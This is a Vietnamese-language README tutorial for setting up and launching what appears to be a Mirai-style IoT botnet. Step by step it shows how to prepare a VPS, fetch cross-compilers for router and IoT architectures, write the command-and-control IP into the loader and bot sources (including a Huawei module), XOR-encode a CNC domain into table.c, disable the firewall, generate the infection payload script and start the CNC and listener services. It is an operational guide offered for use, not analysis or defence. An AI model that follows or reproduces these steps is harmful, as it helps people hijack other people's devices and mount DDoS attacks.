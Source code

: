 TUT của zxcr9999

### Sao chép và dán tất cả vào shit vps của bạn
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### cài đặt golang
```
cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
```
```
sha256sum go1.13.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
```
```
go version
go env
cd ~/
```

### thay đổi ip

`loader/src/main.c`

`loader/src/headers/config.h`

`dlr/main.c`

`bot/huawei.c`

`bot/util.c`


### thêm tên miền

kéo tệp `enc.c` vào vps của bạn và gõ lệnh
```
cd /root/tools
gcc enc.c -o enc -std=c99
```
```
./enc string botnet.yourdomain.com
```
và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`

`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet

`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`

số 17 sẽ tương ứng với byte xor
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-i586.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-m68k.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mips.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mipsel.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-powerpc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sh4.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv4l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://github.com/R00tS3c/DDOS-RootSec/raw/refs/heads/master/uclib-cross-compilers/cross-compiler-armv7l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-x86_64.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
```
```
rm -rf *.tar.*
```
```
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-x86_64 x86_64
```

### Bắt đầu xây dựng
```
service firewalld stop
service iptables stop 
service httpd restart  
service mariadb stop
```
```
cd /root/cnc/
sh build.sh
```
```
cd /root
chmod 777 *
sh build.sh
```
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
### Xây dựng file `.sh`
```
python payload.py
```
### Cách khởi động cnc và listen
```
cd cnc/
screen -dmS cnc ./cnc 56999 1337 750
screen -dmS listen ./listen
```
----------------------------------------------------------
Help: 56999 là cổng bot (nếu muốn thay thì vào file `bot/main.c` dòng 429), 1337 là cổng cnc, 10 là luồng (tối đa luồng là 750)
